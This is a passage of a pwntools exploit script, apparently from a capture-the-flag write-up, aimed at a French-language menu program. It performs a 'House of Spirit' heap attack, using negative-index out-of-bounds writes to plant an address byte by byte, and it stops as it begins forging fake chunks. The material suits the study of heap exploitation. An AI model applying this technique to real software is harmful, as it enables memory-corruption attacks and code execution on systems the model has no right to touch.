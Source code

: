 ```python
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

log.info("[+] Performing the second House of Spirit attack")
house_of_spirit_address -= 16

p.recvuntil(b"modifier ?")
p.sendline(b"-56")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-55")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 8 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-54")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 16 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-53")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 24 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-52")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 32 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-51")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 40 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-50")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 48 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-49")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 56 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

# Forging a fake chunks on our buffer
```
